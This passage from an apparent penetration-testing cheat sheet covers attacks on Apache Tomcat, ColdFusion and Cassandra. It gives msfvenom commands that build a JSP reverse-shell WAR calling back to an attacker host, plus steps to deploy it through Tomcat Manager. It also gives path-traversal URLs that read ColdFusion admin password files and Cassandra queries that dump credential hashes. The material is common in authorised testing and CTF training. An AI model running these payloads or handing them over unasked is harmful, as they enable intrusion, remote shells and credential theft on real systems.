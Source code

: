 ### Port 8080 - Apache Tomcat
```bash
# Credentials are found in the following path (download a copy of tomcat and check manually):
# /etc/tomcat9/tomcat-users.xml
# /usr/share/tomcat9/etc/tomcat-users.xml
# /var/lib/ucf/cache/:etc:tomcat9:tomcat-users.xml

# If you have credentials, you can do the following:
apt install tomcatmanager
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war > shell.war

tomcat-manager
> connect http://10.10.10.194:8080/manager tomcat $3cureP4s5w0rd123!
> deploy local /path/to/shell.war /manager/qernel.war

# With metasploit
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > show options

```

### Port 8500 (TCP) - Macromedia/Adobe ColdFusion Web Server
```bash
# The website in question must have a ColdFusion administrator available.
# Try the following local file disclosure (LFD) to get the password hash for the administrator 

# ColdFusion 6
http://$IP:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en

# ColdFusion 7
http://$IP:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en	

# ColdFusion 8
http://$IP:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

# All versions
http://$IP:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en

# Try cracking the hash with crackstation or follow the guide below
```
References:
* https://nets.ec/Coldfusion_hacking


### Port 9042 / 9160 -  Cassandra
```bash
#Enumeration
pip install cqlsh
cqlsh $IP
#Basic info enumeration
SELECT cluster_name, thrift_version, data_center, partitioner, native_protocol_version, rack, release_version from system.local;
#Keyspace enumeration
SELECT keyspace_name FROM system.schema_keyspaces;
desc <Keyspace_name>    #Decribe that DB
desc system_auth        #Describe the DB called system_auth
SELECT * from system_auth.roles;  #Retreive that info, can contain credential hashes
SELECT * from logdb.user_auth;    #Can contain credential hashes
SELECT * from logdb.user;
```
